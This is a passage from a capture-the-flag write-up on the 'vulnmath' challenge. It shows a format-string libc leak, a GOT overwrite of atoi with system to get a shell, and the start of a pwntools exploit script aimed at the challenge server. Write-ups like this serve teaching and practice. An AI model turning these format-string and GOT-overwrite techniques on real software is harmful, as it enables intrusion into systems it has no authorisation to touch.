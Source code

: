 So we can see that `17` spots after our input, is the libc address `0xf7debfb9`, which is `0x1efb9` bytes ahead of the libc base address. This means that at spot `17 + 6 = 23`, we should get a libc infoleak:

```
$    ./vulnmath
Welcome to VulnMath
Where your wildest shells can come true

What is 4 * 7?
> %23$x
Incorrect!
f7ddafb9

What is 17 * 4?
```

With that, we know the address space of the libc. Proceeding that, we can just write the libc address of `system` (offset of `0x458b0` from the start of libc) over to got address of `atoi`. Now `system` takes a single argument, which is a char pointer. In the context of this code `atoi` is called once which it's argument is a pointer to our input:

```
    local_28 = atoi((char *)&local_48);
```

This is perfect, since it will allow us to call `system("/bin/sh")`, and it won't crash the program before then. After that, we just construct the format string for the got write, which is pretty similar to the ones that are in the writeups linked above. The only real difference is since we are writing a libc address which changes every time we run the binary, we have to calculate the libc `system` address then use that to figure out exactly what value we will write.

## Exploit

Here is the code for our exploit:


```
from pwn import *

target = remote("chal.tuctf.com", 30502)

#target = process("./vulnmath", env={"LD_PRELOAD":"./libc.so.6"})
#gdb.attach(target, gdbscript = 'b *0x8049447')
libc = ELF("./libc.so.6")


# Leak the libc address, calculate libc base and system address
leakPayload = "%23$x"

target.sendline(leakPayload)

print target.recvuntil("> Incorrect!\n")

leak = target.recvline()

leak = int("0x" + leak, 16)

libcBase = leak - 0x1efb9
system = libcBase + libc.symbols["system"]

print "libc base is: " + hex(libcBase)
print "system is: " + hex(system)


# Calculate values we will write for got overwrite
firstWrite = (system & 0xffff) - 0x8
```